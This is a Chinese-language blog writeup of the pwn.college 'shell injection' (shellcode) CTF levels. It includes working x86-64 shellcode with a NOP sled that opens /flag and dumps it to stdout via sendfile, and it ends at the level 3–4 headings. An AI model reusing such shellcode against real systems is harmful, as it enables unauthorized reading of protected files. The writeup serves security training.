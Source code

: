 ```yaml
---
title: PwnCollege baby shell writeup
date: 2023-02-25 15:03:14
tags: [CTF, shell injection]
category: [CTF]
---
```


偶然间了解到了[pwn.college](https://pwn.college)的存在, 有比较详细的PreReading和教程视频并且平台交互比较友好, 可以在网页中用vs code的terminal完成所有的操作, 比较方便, 于是就开始了CTF get start :). 我是从x86 assembly的那个module开始的, 因为是比较简单汇编语法, 这里就不赘述了, 就从shell injection开始吧.

shell injection的challenge在`/challenge/`目录下, 运行之后会显示当前level的challenge.

Tips:
1. 在shellcode中用`.intel_syntax noprefix` 可以代替gcc中的`-masm=intel`
2. 用`objcopy --dump-section .text=<output> <excutable>`dump出text section

## level 1, 2
level 1和level 2比较简单, 可以采用多种方式拿到flag. 可以读`/flag`文件, 然后输出到`/dev/stdout`. 或者直接调用`chmod`修改`/flag`文件的权限. 我这里用的是第一种方法.

第一个syscall是`open('/flag', 0, 0)`, 然后将fd作为第二个syscall`sendfile`的参数, 将`/flag`的内容发送给`/dev/stdout`, 也就是直接输出出来.
>*This challenge will randomly skip up to 0x800 bytes in your shellcode*

level 2 与level 1不同的就是level 2会随机跳过最多0x800 bytes的code, 在最开始用`nop(0x90)`填充0x800 bytes即可.
```
.global _start
_start:
.intel_syntax noprefix
.fill 0x800, 1, 0x90
        mov rax, 0x67616c662f
        mov [rdi], rax
        mov rsi, 0
        mov rdx, 0
        mov rax, 2
        syscall

        mov rdi, 1
        mov rsi, rax
        mov rax, 40
        mov rdx, 0
        mov r10, 0x100
        syscall

        mov rax, 60
        mov rdi, 0
        syscall
```
## level 3, 4
>*Level 3: This challenge requires that your shellcode have no NULL bytes!*
>*Level 4: This challenge requires that your shellcode have no H bytes!*
